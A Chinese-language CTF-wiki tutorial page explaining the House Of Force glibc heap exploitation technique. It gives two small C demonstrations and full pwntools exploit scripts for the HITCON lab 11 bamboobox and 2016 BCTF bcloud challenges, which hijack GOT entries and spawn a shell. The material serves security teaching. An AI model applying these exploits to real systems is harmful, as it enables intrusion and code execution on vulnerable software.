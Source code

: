 House Of Force
==============

介绍
----

House Of Force 属于 House Of XXX 系列的利用方法，House Of XXX 是 2004 年《The Malloc Maleficarum-Glibc Malloc Exploitation Techniques》中提出的一系列针对 glibc 堆分配器的利用方法。
但是，由于年代久远《The Malloc Maleficarum》中提出的大多数方法今天都不能奏效，我们现在所指的 House Of XXX 利用相比 2004 年文章中写的已有较大的不同。但是《The Malloc
Maleficarum》依然是一篇推荐阅读的文章，你可以在这里读到它的原文： https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt

原理
----

House Of Force 是一种堆利用方法，但是并不是说 House Of Force 必须得基于堆漏洞来进行利用。如果一个堆(heap based) 漏洞想要通过 House Of Force 方法进行利用，需要以下条件：

1. 能够以溢出等方式控制到 top chunk 的 size 域
2. 能够自由地控制堆分配尺寸的大小

House Of Force 产生的原因在于 glibc 对 top chunk 的处理，根据前面堆数据结构部分的知识我们得知，进行堆分配时，如果所有空闲的块都无法满足需求，那么就会从 top chunk 中分割出相应的大小作为堆块的空间。

那么，当使用 top chunk 分配堆块的 size 值是由用户控制的任意值时会发生什么？答案是，可以使得 top chunk指向我们期望的任何位置，这就相当于一次任意地址写。然而在 glibc 中，会对用户请求的大小和 top chunk
现有的 size 进行验证

::

    // 获取当前的top chunk，并计算其对应的大小
    victim = av->top;
    size   = chunksize(victim);
    // 如果在分割之后，其大小仍然满足 chunk 的最小大小，那么就可以直接进行分割。
    if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)) 
    {
        remainder_size = size - nb;
        remainder      = chunk_at_offset(victim, nb);
        av->top        = remainder;
        set_head(victim, nb | PREV_INUSE |
                (av != &main_arena ? NON_MAIN_ARENA : 0));
        set_head(remainder, remainder_size | PREV_INUSE);

        check_malloced_chunk(av, victim, nb);
        void *p = chunk2mem(victim);
        alloc_perturb(p, bytes);
        return p;
    }

然而，如果可以篡改 size 为一个很大值，就可以轻松的通过这个验证，这也就是我们前面说的需要一个能够控制top chunk size 域的漏洞。

::

    (unsigned long) (size) >= (unsigned long) (nb + MINSIZE)

一般的做法是把 top chunk 的 size 改为-1，因为在进行比较时会把 size 转换成无符号数，因此 -1 也就是说unsigned long 中最大的数，所以无论如何都可以通过验证。

::

    remainder      = chunk_at_offset(victim, nb);
    av->top        = remainder;

    /* Treat space at ptr + offset as a chunk */
    #define chunk_at_offset(p, s) ((mchunkptr)(((char *) (p)) + (s)))

之后这里会把 top 指针更新，接下来的堆块就会分配到这个位置，用户只要控制了这个指针就相当于实现任意地址写任意值(write-anything-anywhere)。

**与此同时，我们需要注意的是，topchunk的size也会更新，其更新的方法如下**

.. code:: c

    victim = av->top;
    size   = chunksize(victim);
    remainder_size = size - nb;
    set_head(remainder, remainder_size | PREV_INUSE);

所以，如果我们想要下次在指定位置分配大小为 x 的 chunk，我们需要确保 remainder_size 不小于 x+ MINSIZE。

简单示例1
---------

在学习完 HOF 的原理之后，我们这里通过一个示例来说明 HOF 的利用，这个例子的目标是通过HOF来篡改 ``malloc@got.plt`` 实现劫持程序流程

::

    int main()
    {
        long *ptr,*ptr2;
        ptr=malloc(0x10);
        ptr=(long *)(((long)ptr)+24);
        *ptr=-1;        // <=== 这里把top chunk的size域改为0xffffffffffffffff
        malloc(-4120);  // <=== 减小top chunk指针
        malloc(0x10);   // <=== 分配块实现任意地址写
    }

首先，我们分配一个 0x10 字节大小的块

::

    0x602000:   0x0000000000000000  0x0000000000000021 <=== ptr
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000020fe1 <=== top chunk
    0x602030:   0x0000000000000000  0x0000000000000000

之后把 top chunk 的 size 改为 0xffffffffffffffff，在真正的题目中，这一步可以通过堆溢出等漏洞来实现。 因为 -1 在补码中是以 0xffffffffffffffff 表示的，所以我们直接赋值 -1 就可以。

::

    0x602000:   0x0000000000000000  0x0000000000000021 <=== ptr
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0xffffffffffffffff <=== top chunk size域被更改
    0x602030:   0x0000000000000000  0x0000000000000000

注意此时的 top chunk 位置，当我们进行下一次分配的时候就会更改 top chunk 的位置到我们想要的地方

::

    0x7ffff7dd1b20 <main_arena>:    0x0000000100000000  0x0000000000000000
    0x7ffff7dd1b30 <main_arena+16>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b40 <main_arena+32>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b50 <main_arena+48>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b60 <main_arena+64>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b70 <main_arena+80>: 0x0000000000000000  0x0000000000602020 <=== top chunk此时一切正常
    0x7ffff7dd1b80 <main_arena+96>: 0x0000000000000000  0x00007ffff7dd1b78

接下来我们执行\ ``malloc(-4120);``\ ，-4120是怎么得出的呢？ 首先，我们需要明确要写入的目的地址，这里我编译程序后，0x601020 是 ``malloc@got.plt`` 的地址

::

    0x601020:   0x00007ffff7a91130 <=== malloc@got.plt

所以我们应该将 top chunk 指向 0x601010 处，这样当下次再分配 chunk 时，就可以分配到 ``malloc@got.plt`` 处的内存了。

之后明确当前 top chunk 的地址，根据前面描述，top chunk 位于 0x602020，所以我们可以计算偏移如下

0x601010-0x602020=-4112

此外，用户申请的内存大小，一旦进入申请内存的函数中就变成了无符号整数。

.. code:: c

    void *__libc_malloc(size_t bytes) {

如果想要用户输入的大小经过内部的 ``checked_request2size``\ 可以得到这样的大小，即

.. code:: c

    /*
       Check if a request is so large that it would wrap around zero when
       padded and aligned. To simplify some other code, the bound is made
       low enough so that adding MINSIZE will also not wrap around zero.
     */

    #define REQUEST_OUT_OF_RANGE(req)                                              \
        ((unsigned long) (req) >= (unsigned long) (INTERNAL_SIZE_T)(-2 * MINSIZE))
    /* pad request bytes into a usable size -- internal version */
    //MALLOC_ALIGN_MASK = 2 * SIZE_SZ -1
    #define request2size(req)                                                      \
        (((req) + SIZE_SZ + MALLOC_ALIGN_MASK < MINSIZE)                           \
             ? MINSIZE                                                             \
             : ((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK)

    /*  Same, except also perform argument check */

    #define checked_request2size(req, sz)                                          \
        if (REQUEST_OUT_OF_RANGE(req)) {                                           \
            __set_errno(ENOMEM);                                                   \
            return 0;                                                              \
        }                                                                          \
        (sz) = request2size(req);

一方面，我们需要绕过 REQUEST_OUT_OF_RANGE(req) 这个检测，即我们传给 malloc 的值在负数范围内，不得大于 -2 \* MINSIZE，这个一般情况下都是可以满足的。

另一方面，在满足对应的约束后，我们需要使得 ``request2size``\ 正好转换为对应的大小，也就是说，我们需要使得 ((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK 恰好为-4112。首先，很显然，-4112 是
chunk 对齐的，那么我们只需要将其分别减去 SIZE_SZ，MALLOC_ALIGN_MASK 就可以得到对应的需要申请的值。其实我们这里只需要减 SIZE_SZ 就可以了，因为多减的 MALLOC_ALIGN_MASK 最后还会被对齐掉。而\ **如果 -4112
不是 MALLOC_ALIGN 的时候，我们就需要多减一些了。当然，我们最好使得分配之后得到的 chunk 也是对齐的，因为在释放一个 chunk 的时候，会进行对齐检查。**

因此，我们当调用\ ``malloc(-4120)``\ 之后，我们可以观察到 top chunk 被抬高到我们想要的位置

::

    0x7ffff7dd1b20 <main_arena>:\   0x0000000100000000  0x0000000000000000
    0x7ffff7dd1b30 <main_arena+16>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b40 <main_arena+32>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b50 <main_arena+48>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b60 <main_arena+64>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b70 <main_arena+80>: 0x0000000000000000  0x0000000000601010 <=== 可以观察到top chunk被抬高
    0x7ffff7dd1b80 <main_arena+96>: 0x0000000000000000  0x00007ffff7dd1b78

之后，我们分配的块就会出现在 0x601010+0x10 的位置，也就是 0x601020 可以更改 got 表中的内容了。

但是需要注意的是，在被抬高的同时，malloc@got 附近的内容也会被修改。

.. code:: c

        set_head(victim, nb | PREV_INUSE |
                (av != &main_arena ? NON_MAIN_ARENA : 0));

简单示例2
---------

在上一个示例中，我们演示了通过 HOF 使得 top chunk 的指针减小来修改位于其上面(低地址)的got表中的内容， 但是 HOF 其实也可以使得 top chunk 指针增大来修改位于高地址空间的内容，我们通过这个示例来演示这一点

::

    int main()
    {
        long *ptr,*ptr2;
        ptr=malloc(0x10);
        ptr=(long *)(((long)ptr)+24);
        *ptr=-1;                 <=== 修改top chunk size
        malloc(140737345551056); <=== 增大top chunk指针
        malloc(0x10);
    }

我们可以看到程序代码与简单示例1基本相同，除了第二次 malloc 的 size 有所不同。 这次我们的目标是 malloc_hook，我们知道 malloc_hook 是位于 libc.so 里的全局变量值，首先查看内存布局

::

    Start              End                Offset             Perm Path
    0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/桌面/tst/t1
    0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/桌面/tst/t1
    0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/桌面/tst/t1
    0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
    0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw- 
    0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw- 
    0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw- 
    0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
    0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
    0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
    0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
    0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]

可以看到 heap 的基址在 0x602000，而 libc 的基址在 0x7ffff7a0d000，因此我们需要通过 HOF 扩大 top chunk指针的值来实现对 malloc_hook 的写。 首先，由调试得知 \__malloc_hook 的地址位于 0x7ffff7dd1b10
，采取计算

0x7ffff7dd1b00-0x602020-0x10=140737345551056 经过这次 malloc 之后，我们可以观察到 top chunk 的地址被抬高到了 0x00007ffff7dd1b00

::

    0x7ffff7dd1b20 <main_arena>:    0x0000000100000000  0x0000000000000000
    0x7ffff7dd1b30 <main_arena+16>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b40 <main_arena+32>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b50 <main_arena+48>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b60 <main_arena+64>: 0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b70 <main_arena+80>: 0x0000000000000000  0x00007ffff7dd1b00 <=== top chunk
    0x7ffff7dd1b80 <main_arena+96>: 0x0000000000000000  0x00007ffff7dd1b78

之后，我们只要再次分配就可以控制 0x7ffff7dd1b10 处的 \__malloc_hook 值了

::

    rax = 0x00007ffff7dd1b10
        
    0x400562 <main+60>        mov    edi, 0x10
    0x400567 <main+65>        call   0x400410 <malloc@plt>

小总结
------

在这一节中讲解了 House Of Force 的原理并且给出了两个利用的简单示例，通过观察这两个简单示例我们会发现其实HOF的利用要求还是相当苛刻的。

-  首先，需要存在漏洞使得用户能够控制 top chunk 的 size 域。
-  其次，\ **需要用户能自由控制 malloc 的分配大小**
-  第三，分配的次数不能受限制

其实这三点中第二点往往是最难办的，CTF 题目中往往会给用户分配堆块的大小限制最小和最大值使得不能通过HOF 的方法进行利用。

HITCON training lab 11
----------------------

这里，我们主要修改其 magic 函数为

基本信息
~~~~~~~~

.. code:: shell

    ➜  hitcontraning_lab11 git:(master) file bamboobox     
    bamboobox: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=595428ebf89c9bf7b914dd1d2501af50d47bbbe1, not stripped
    ➜  hitcontraning_lab11 git:(master) checksec bamboobox 
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/house_of_force/hitcontraning_lab11/bamboobox'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

该程序是一个 64 位的动态链接程序。

基本功能
~~~~~~~~

需要注意的是，该程序开始时即申请了 0x10 的内存，用来保留\ **两个函数指针**\ 。

该程序大概就是对于盒子里的物品进行添加和删除

1. 展示盒子里的内容，依次盒子里每一个物品的名字。
2. 向盒子里添加物品，根据用户输入的大小来为每一个物品申请对应的内存，作为其存储名字的空间。但是需要注意的是，这里读取名字使用的是 ``read`` 函数，读取长度的参数是用户输入的 v2，而 read
   的第三个参数是无符号整数，如果我们输入负数，就可以读取任意长度。但是我们需要确保该数值满足\ ``REQUEST_OUT_OF_RANGE``
   的约束，所以这里存在\ **任意长度堆溢出**\ 的漏洞。但即使这样，第一次的时候也比较难以利用，因为初始时候堆的 top chunk 的大小一般是不会很大的。
3. 修改物品的名字，根据给定的索引，以及大小，向指定索引的物品中读取指定长度名字。这里长度由用户来读入，也存在\ **任意长度堆溢出**\ 的漏洞。
4. 删除物品，将对应物品的名字的大小置为0，并将对应的 content 置为 NULL。

此外，由于该程序主要是一个演示程序，所以程序中有一个 magic 函数，可以直接读取 flag。

利用
~~~~

由于程序中有个 magic 函数，所以我们的核心目的是覆盖某个指针为 magic 函数的指针。这里，程序在开始的时候申请了一块内存来存储两个函数指针，hello_message用于程序开始时使用，goodbye_message
用于在程序结束时使用，所以我们可以利用覆盖 goodbye_message 来控制程序执行流。具体思路如下

1. 添加物品，利用堆溢出漏洞覆盖 top chunk 的大小为 -1，即 64 位最大值。
2. 利用 house of force 技巧，分配 chunk 至堆的基地址。
3. 覆盖 goodbye_message 为magic 函数地址来控制程序执行流

**这里需要注意的是，在触发top chunk 转移到指定位置时，所使用的大小应该合适，以便于设置新的 top chunk 大小，从而可以绕过下一次分配top chunk 的检测。**

exp 如下

.. code:: shell

    #!/usr/bin/env python
    # -*- coding: utf-8 -*-

    from pwn import *

    r = process('./bamboobox')
    context.log_level = 'debug'


    def additem(length, name):
        r.recvuntil(":")
        r.sendline("2")
        r.recvuntil(":")
        r.sendline(str(length))
        r.recvuntil(":")
        r.sendline(name)


    def modify(idx, length, name):
        r.recvuntil(":")
        r.sendline("3")
        r.recvuntil(":")
        r.sendline(str(idx))
        r.recvuntil(":")
        r.sendline(str(length))
        r.recvuntil(":")
        r.sendline(name)


    def remove(idx):
        r.recvuntil(":")
        r.sendline("4")
        r.recvuntil(":")
        r.sendline(str(idx))


    def show():
        r.recvuntil(":")
        r.sendline("1")


    magic = 0x400d49
    # we must alloc enough size, so as to successfully alloc from fake topchunk
    additem(0x30, "ddaa")  # idx 0
    payload = 0x30 * 'a'  # idx 0's content
    payload += 'a' * 8 + p64(0xffffffffffffffff)  # top chunk's prev_size and size
    # modify topchunk's size to -1
    modify(0, 0x41, payload)
    # top chunk's offset to heap base
    offset_to_heap_base = -(0x40 + 0x20)
    malloc_size = offset_to_heap_base - 0x8 - 0xf
    #gdb.attach(r)
    additem(malloc_size, "dada")
    additem(0x10, p64(magic) * 2)
    print r.recv()
    r.interactive()

当然，这一题也可以使用 unlink 的方法来做。

2016 BCTF bcloud
----------------

.. 基本信息-1:

基本信息
~~~~~~~~

.. code:: shell

    ➜  2016_bctf_bcloud git:(master) file bcloud   
    bcloud: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=96a3843007b1e982e7fa82fbd2e1f2cc598ee04e, stripped
    ➜  2016_bctf_bcloud git:(master) checksec bcloud  
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/house_of_force/2016_bctf_bcloud/bcloud'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)

可以看出，这是一个动态链接的 32 位程序，主要开启了 Canary 保护与 NX 保护。

.. 基本功能-1:

基本功能
~~~~~~~~

程序大概是一个云笔记管理系统。首先，程序会进行一些初始化，设置用户的名字，组织，host。程序主要有以下几个功能

1. 新建note，根据用户的输入x申请x+4的空间作为note的大小。
2. 展示note，啥功能也没有。。
3. 编辑note，根据用户指定的 note 编辑对应的内容。
4. 删除note，删除对应note。
5. 同步note，标记所有的note已经被同步。

然而在这五个功能中并没有发现啥漏洞，，，重新看程序，结果发现程序在初始化的时候出现了漏洞。。

初始化名字

.. code:: c

    unsigned int init_name()
    {
      char s; // [esp+1Ch] [ebp-5Ch]
      char *tmp; // [esp+5Ch] [ebp-1Ch]
      unsigned int v3; // [esp+6Ch] [ebp-Ch]

      v3 = __readgsdword(0x14u);
      memset(&s, 0, 0x50u);
      puts("Input your name:");
      read_str(&s, 64, '\n');
      tmp = (char *)malloc(0x40u);
      name = tmp;
      strcpy(tmp, &s);
      info(tmp);
      return __readgsdword(0x14u) ^ v3;
    }

这里如果程序读入的名字为64个字符，那么当程序在使用info函数输出对应的字符串时，就会输出对应的tmp指针内容，也就是说\ **泄露了堆的地址**\ 。。

初始化组织和org的时候存在漏洞

.. code:: c

    unsigned int init_org_host()
    {
      char s; // [esp+1Ch] [ebp-9Ch]
      char *v2; // [esp+5Ch] [ebp-5Ch]
      char v3; // [esp+60h] [ebp-58h]
      char *v4; // [esp+A4h] [ebp-14h]
      unsigned int v5; // [esp+ACh] [ebp-Ch]

      v5 = __readgsdword(0x14u);
      memset(&s, 0, 0x90u);
      puts("Org:");
      read_str(&s, 64, 10);
      puts("Host:");
      read_str(&v3, 64, 10);
      v4 = (char *)malloc(0x40u);
      v2 = (char *)malloc(0x40u);
      org = v2;
      host = v4;
      strcpy(v4, &v3);
      strcpy(v2, &s);
      puts("OKay! Enjoy:)");
      return __readgsdword(0x14u) ^ v5;
    }

当读入组织时，给定 64 字节，会覆盖 v2 的低地址。与此同时，我们可以知道 v2 是与 top chunk 相邻的 chunk，而 v2 恰好与 org 相邻，那么由于在 32 位程序中，一般都是 32 位全部都使用，这里 v2
所存储的内容，几乎很大程度上都不是 ``\x00`` ，所以当执行 strcpy 函数向 v2 中拷贝内容时，很有可能会覆盖top chunk。这就是漏洞所在。

.. 利用-1:

利用
~~~~

1. 利用初始化名字处的漏洞泄漏堆的基地址。。
2. 利用 house of force 将 top chunk 分配至全局的 0x0804B0A0 的 &notesize-8 处，当再次申请内存时，便返回notesize地址处的内存，从而我们就可以控制所有note的大小以及对应的地址了。
3. 修改前三个 note 的大小为16，并修改其指针为 free@got，atoi@got，atoi@got
4. 将 free@got 修改为 puts@plt。
5. 泄漏 atoi 地址。
6. 再次修改另外一个 atoi got 项为 system 地址，从而拿到shell。

具体脚本如下

.. code:: python

    from pwn import *
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
    if args['DEBUG']:
        context.log_level = 'debug'
    context.binary = "./bcloud"
    bcloud = ELF("./bcloud")
    if args['REMOTE']:
        p = remote('127.0.0.1', 7777)
    else:
        p = process("./bcloud")
    log.info('PID: ' + str(proc.pidof(p)[0]))
    libc = ELF('./libc.so.6')


    def offset_bin_main_arena(idx):
        word_bytes = context.word_size / 8
        offset = 4  # lock
        offset += 4  # flags
        offset += word_bytes * 10  # offset fastbin
        offset += word_bytes * 2  # top,last_remainder
        offset += idx * 2 * word_bytes  # idx
        offset -= word_bytes * 2  # bin overlap
        return offset


    def exp():
        # leak heap base
        p.sendafter('Input your name:\n', 'a' * 64)
        p.recvuntil('Hey ' + 'a' * 64)
        # sub name's chunk' s header
        heap_base = u32(p.recv(4)) - 8
        log.success('heap_base: ' + hex(heap_base))
        p.sendafter('Org:\n', 'a' * 64)
        p.sendlineafter('Host:\n', p32(0xffffffff))
        # name,org,host, for each is (0x40+8)
        topchunk_addr = heap_base + (0x40 + 8) * 3

        # make topchunk point to 0x0804B0A0-8
        p.sendlineafter('option--->>', '1')
        notesize_addr = 0x0804B0A0
        notelist_addr = 0x0804B120
        targetaddr = notesize_addr - 8
        offset_target_top = targetaddr - topchunk_addr
        # 4 for size_t, 7 for malloc_allign
        malloc_size = offset_target_top - 4 - 7
        # plus 4 because malloc(v2 + 4);
        p.sendlineafter('Input the length of the note content:\n',
                        str(malloc_size - 4))
        # most likely malloc_size-4<0...
        if malloc_size - 4 > 0:
            p.sendlineafter('Input the content:\n', '')

        #gdb.attach(p)
        # set notesize[0] = notesize[1] = notesize[2]=16
        # set notelist[0] = free@got, notelist[1]= notelist[2]=atoi@got
        p.sendlineafter('option--->>', '1')
        p.sendlineafter('Input the length of the note content:\n', str(1000))

        payload = p32(16) * 3 + (notelist_addr - notesize_addr - 12) * 'a' + p32(
            bcloud.got['free']) + p32(bcloud.got['atoi']) * 2
        p.sendlineafter('Input the content:\n', payload)

        # overwrite free@got with puts@plt
        p.sendlineafter('option--->>', '3')
        p.sendlineafter('Input the id:\n', str(0))
        p.sendlineafter('Input the new content:\n', p32(bcloud.plt['puts']))

        # leak atoi addr by fake free
        p.sendlineafter('option--->>', '4')
        p.sendlineafter('Input the id:\n', str(1))
        atoi_addr = u32(p.recv(4))
        libc_base = atoi_addr - libc.symbols['atoi']
        system_addr = libc_base + libc.symbols['system']
        log.success('libc base addr: ' + hex(libc_base))

        # overwrite atoi@got with system
        p.sendlineafter('option--->>', '3')
        p.sendlineafter('Input the id:\n', str(2))
        p.sendlineafter('Input the new content:\n', p32(system_addr))

        # get shell
        p.sendlineafter('option--->>', '/bin/sh\x00')
        p.interactive()


    if __name__ == "__main__":
        exp()

题目
----

-  `2016 Boston Key Party CTF cookbook <https://github.com/ctfs/write-ups-2016/tree/master/boston-key-party-2016/pwn/cookbook-6>`__
